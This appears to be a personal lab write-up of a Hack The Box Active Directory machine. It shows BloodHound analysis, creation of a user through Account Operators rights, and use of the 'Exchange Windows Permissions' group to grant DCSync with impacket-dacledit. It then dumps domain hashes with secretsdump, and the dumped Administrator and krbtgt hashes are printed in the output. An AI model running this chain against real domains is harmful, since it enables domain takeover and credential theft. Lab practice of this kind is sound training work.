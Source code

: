 ## Bloodhound
- We grab the files with our credentials
	```bash

```
- ![[Pasted image 20250419124256.png]]
	- Shortest Path from Owned Principles
		- Here we see Account Operators group which is a Privileges AD group acccording the AD documentation.
			- With this we can create and modify users and add them to non protected groups
		- We also see EXCH01.HTB.LOCAL
			- We check using nslookup:
				```bash
nslookup
> server 10.10.10.161
> exch01.htb.local

---OUTPUT---
Server:         10.10.10.161
Address:        10.10.10.161#53

Name:   exch01.htb.local
Address: 10.10.10.7
Name:   exch01.htb.local
Address: dead:beef::9548:657:1098:7fdd
```
			- We try to ping it but it fails
			- This is probably a domain that used to exist and for that domain our user was given this Account Operator privileges.
	- Using this we can create a new user (or escalate our current user but since it's HTB and other users might be using it's safer to just create a new user)
		```bash
net user rocknrj rocknrj /add
net users # to check if user has been added
```
- ![[Pasted image 20250419140322.png]]
	- Shortest path to domain admin
		- here we see a group "Exchange Windows Permissions" which has write DACL privileges over HTB.LOCAL
		- We can give our user DCsync privielges over it and then grab the Administrator's hash with secretsdump
- To perform this we add our newly created user to the "Exchange Windows Permissions" group
	```bash
net group "Exchange Windows Permissions"
net group "Exchange Windows Permissions" rocknrj /add
```
- Exploit DACL rights
	```bash
impacket-dacledit -action write -rights DCSync -principal rocknrj -target-dn 'DC=htb,DC=local' htb.local/rocknrj:rocknrj
```
- Grab hashes of users:
	```bash
impacket-secretsdump htb.local/rocknrj:rocknrj@10.10.10.161

---OUTPUT---
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```